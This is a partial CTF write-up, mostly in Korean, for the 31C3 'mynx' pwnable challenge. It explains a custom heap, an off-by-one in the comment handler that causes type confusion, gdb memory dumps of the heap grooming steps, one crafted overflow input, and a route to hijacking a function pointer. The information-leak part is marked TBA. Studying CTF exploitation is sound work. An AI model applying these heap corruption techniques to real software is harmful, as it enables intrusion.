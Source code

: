 ```yaml
---
layout: post
title: "31C3 CTF mynx writeup"
headline:
modified: 2017-01-17
category: pwnable, ctf
comments: true
featured: true
---
```


A writeup for mynx challenge from 31c3 CTF. Have fun :)



## mynx

**Category:** pwnable  
**Points:** 30  
**Type:** Off-by-One, Custom Heap Implementation  
**Description:**  

> mynx running on 188.40.18.80 1234


### Custom Heap Implementation

전역변수 형태로 정의되어 있는 `heapTable@0x0804A900`와 `chunkCntTable@0x0804A904`와 `idxCnt@0x0804A940`가 Heap Management를 수행하는데 사용된다. `heapTable`의 경우 4096(0x1000)byte만큼 할당되는 메모리 블록들의 포인터 배열이며, 각각의 메모리 블록들은 256(0x100)byte 단위(**chunk**라 하자)로 16등분되어 사용된다. 그리고 `chunkCntTable`은 앞에 선언된 `heapTable`에 존재하는 chunk의 개수를 저장하고 있다. 만약 16개가 넘는다면 out-of-memory 에러를 출력하도록 되어있다. `idxCnt`는 이후에 저장되는 ascii_art 혹은 comment 의 id값을 저장하기 위한 변수이다. 해당 바이너리에서 사용되는 구조체는 크게 2가지 유형이 있다.

```c
struct ascii_art {
  char type; // 0x49 : ascii_art
  int id;
  void (*filter_method)(char * content);
  char content[247];
}
```

```c
struct comment {
  char type; // 0x37 : comment
  int id;
  char comment[251];
}
```

두 구조체의 크기는 256(0x100)byte로 동일하다. 즉, 메모리 블록내에 256byte 단위로 존재하는 chunk만큼 할당이 되는 것이다.

### Vulnerability

취약점은 `addComment@0x08048CE3`함수에 존재한다. `addAsciiart@0x08048D8B`의 경우 `read()` 함수로 입력받을 때, 247byte 만큼만 받는다. 하지만, `addComment`의 경우 할당된 크기(251byte)보다 1byte 더 크게 입력 받는다. 즉, 여기서 **Off-by-One** 취약점이 발생한다. 이는 절묘하게도 다음 chunk의 `type`값을 덮어쓸 수 있고, 결국 **Type Confusion** 취약점으로 연계될 수 있다.

Debugging
---------

(1) add ascii_art A1(0x804b008) - AAAA

(2) add ascii_art A2(0x804b108) - BBBB

(3) add comment(C1:0x804b208) to A1 - aaaa

(4) add comment(C2:0x804b308) to A2 - bbbb

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000137	0x61616100	0x00000a61	0x00000000
0x804b218:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000237	0x62626200	0x00000a62	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
```

(5) add ascii_art A3(0x804b408) - CCCC (6) delete comment(C2:0x804b308)

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000137	0x61616100	0x00000a61	0x00000000
0x804b218:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000200	0x62626200	0x00000a62	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b408
0x804b408:	0x00000349	0x048c2b00	0x43434308	0x00000a43
0x804b418:	0x00000000	0x00000000	0x00000000	0x00000000
```

(7) add comment(C3:0x804b308) to A3 - cccc ; it will put in C2(0x804b308)

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000137	0x61616100	0x00000a61	0x00000000
0x804b218:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000337	0x63636300	0x00000a63	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b408
0x804b408:	0x00000349	0x048c2b00	0x43434308	0x00000a43
0x804b418:	0x00000000	0x00000000	0x00000000	0x00000000
```

(8) delete comment(C1:0x0804b208)

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000100	0x61616100	0x00000a61	0x00000000
0x804b218:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000337	0x63636300	0x00000a63	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b408
0x804b408:	0x00000349	0x048c2b00	0x43434308	0x00000a43
0x804b418:	0x00000000	0x00000000	0x00000000	0x00000000
```

(9) add comment(C2) to A2 - "b"*0xfb + "\x49" ; it will put in C1(0x0804b208) and overwrite C3(0x804b308)

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000237	0x62626200	0x62626262	0x62626262
0x804b218:	0x62626262	0x62626262	0x62626262	0x62626262
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000349	0x63636300	0x00000a63	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b408
0x804b408:	0x00000349	0x048c2b00	0x43434308	0x00000a43
0x804b418:	0x00000000	0x00000000	0x00000000	0x00000000

gdb-peda$ x/65wx 0x0804b208
0x804b208:	0x00000237	0x62626200	0x62626262	0x62626262
0x804b218:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b228:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b238:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b248:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b258:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b268:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b278:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b288:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b298:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2a8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2b8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2c8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2d8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2e8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2f8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b308:	0x00000349
```

### EIP Control

실행흐름을 바꾸기 위해서는 여러가지 방법이 존재하지만 여기서는 고맙게도 함수 포인터(Function Pointer)가 존재한다. ![function_ptr]({{ site.url }}/images/2017-01-17/function_ptr.png) 심지어 인자 값까지 컨트롤 가능하므로 완벽한 취약점 조건이 된다.

### Constructing an Information Leak

TBA
